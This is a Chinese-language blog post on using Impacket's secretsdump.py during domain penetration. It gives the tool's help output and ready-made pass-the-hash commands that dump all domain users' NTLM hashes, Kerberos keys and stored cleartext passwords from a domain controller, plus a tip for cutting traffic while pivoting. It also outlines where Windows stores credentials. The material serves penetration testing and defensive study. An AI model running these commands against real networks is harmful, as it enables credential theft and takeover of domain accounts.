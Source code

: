 ```yaml
---
layout: post
title: Windows hash dump之secretsdump
date: 2019-07-16 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}

在域渗透的时候经常使用impacket的secretsdump.py来获取域内主机甚至域控上的hash值，secretsdump可以通过多种方法获取{sam, secrets, cached and ntds}中保存的用户凭证。  
  
{:refdef: style="text-align: center;"}
![](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Windows%20hash%20dump之secretsdump/stupid-hashdump.jpg?raw=true)
{: refdef}   





图片来源于http://blog.extremehacking.org/blog/2017/06/19/make-hashdump-module-work-windows-10-sam-mode/
今天并不讲secretsdump.py的实现方法，也许某天不忙的时候会分析一下其具体实现细节。今天主要借助secretsdump.py了解一下用户凭证在windows系统中是如何存储的。
本文的主要内容：  
1、secretsdump.py的使用  
2、用户凭证在windows系统如何存储

### \#0x00 secretsdump.py的使用:
直接查看帮助是便捷且有效的方法  

``` 
secretsdump.py -h:
Impacket v0.9.20-dev - Copyright 2019 SecureAuth Corporation

usage: secretsdump.py [-h] [-debug] [-system SYSTEM] [-bootkey BOOTKEY]
                      [-security SECURITY] [-sam SAM] [-ntds NTDS]
                      [-resumefile RESUMEFILE] [-outputfile OUTPUTFILE]
                      [-use-vss] [-exec-method [{smbexec,wmiexec,mmcexec}]]
                      [-just-dc-user USERNAME] [-just-dc] [-just-dc-ntlm]
                      [-pwd-last-set] [-user-status] [-history]
                      [-hashes LMHASH:NTHASH] [-no-pass] [-k]
                      [-aesKey hex key] [-dc-ip ip address]
                      [-target-ip ip address]
                      target

Performs various techniques to dump secrets from the remote machine without
executing any agent there.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
                        or LOCAL (if you want to parse local files)

optional arguments:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -system SYSTEM        SYSTEM hive to parse
  -bootkey BOOTKEY      bootkey for SYSTEM hive
  -security SECURITY    SECURITY hive to parse
  -sam SAM              SAM hive to parse
  -ntds NTDS            NTDS.DIT file to parse
  -resumefile RESUMEFILE
                        resume file name to resume NTDS.DIT session dump (only
                        available to DRSUAPI approach). This file will also be
                        used to keep updating the session's state
  -outputfile OUTPUTFILE
                        base output filename. Extensions will be added for
                        sam, secrets, cached and ntds
  -use-vss              Use the VSS method insead of default DRSUAPI
  -exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using
                        -use-vss). Default: smbexec

display options:
  -just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified.
                        Only available for DRSUAPI approach. Implies also
                        -just-dc switch
  -just-dc              Extract only NTDS.DIT data (NTLM hashes and Kerberos
                        keys)
  -just-dc-ntlm         Extract only NTDS.DIT data (NTLM hashes only)
  -pwd-last-set         Shows pwdLastSet attribute for each NTDS.DIT account.
                        Doesn't apply to -outputfile data
  -user-status          Display whether or not the user is disabled
  -history              Dump password history, and LSA secrets OldVal

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from
                        ccache file (KRB5CCNAME) based on target parameters.
                        If valid credentials cannot be found, it will use the
                        ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                        bits)

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use
                        the domain part (FQDN) specified in the target
                        parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will
                        use whatever was specified as target. This is useful
                        when target is the NetBIOS name and you cannot resolve
                        it
```
基本使用方法：
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH 
```
secretsdump.py主要从SAM、LSA secrets(包括 cached creds)和域控的NTDS.dit(包括Supplemental Credentials，可能有明文密码)三处获取用户凭证，唯一的一点是不能dump LSASS进程在内存中的数据。  
1、导出域内所有用户ntlm hash(通过预控上的ntds.dit数据库获取)  
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH  -just-dc-ntlm -outputfile tmp
```
2、导出域内所有用户的ntlm hash、Kerberos keys和Domain Credentials(Supplemental Credentials，可能保存有明文密码，secretsdump生成的文件以cleartext为后缀)。-just-dc能导出用户明文密码(如果明文保存在Supplemental Credentials的话，-just-dc-ntlm只能导出lm hash和nt hash)  
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH  -just-dc -outputfile tmp
```
3、secretsdump.py会把结果打印到标准输出，而渗透过程中可能会经过多个跳板机在内网运行secretsdump，这样可能产生额外流量，为了避免这种情况，可以把输出定向到/dev/null。  
```
python secretsdump.py domain/username@10.10.10.10 -hashes LM HASH:NT HASH  -just-dc-ntlm -outputfile tmp >/dev/null
```

### \#0x01 用户凭证在windows系统如何存储:
查看微软官方的说明
![用户凭证在windows系统中的存储情况](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Windows%20hash%20dump之secretsdump/用户凭证在windows系统中的存储情况%20copy.png?raw=true) 

根据微软官网的介绍，用户凭证一般存储在SAM、LSA secrets、NTDS.DIT和LSASS进程的内存中，另外系统缓存中也有可能存在用户凭证，参见：  
[Cached Domain Credentials](https://moyix.blogspot.com/2008/02/cached-domain-credentials.html)  
[Interactive logon: Number of previous logons to cache (in case domain controller is not available)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj852209%28v%3dws.11%29)  


secretsdump可以从SAM、LSA secrets(包括 cached creds)和域控的NTDS.dit获取用户凭证，LSASS进程的内存数据通过[绕过杀软导出域内用户hash的方法记录](https://pythonpig.github.io/2018/12/13/绕过杀软导出域内用户hash方法记录/)获取。  


### 参考
* [Dumping Windows Credentials](https://www.securusglobal.com/community/2013/12/20/dumping-windows-credentials/)
* [Cached Domain Credentials](https://moyix.blogspot.com/2008/02/cached-domain-credentials.html)  
* [Interactive logon: Number of previous logons to cache (in case domain controller is not available)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/jj852209%28v%3dws.11%29)  
* [绕过杀软导出域内用户hash的方法记录](https://pythonpig.github.io/2018/12/13/绕过杀软导出域内用户hash方法记录/)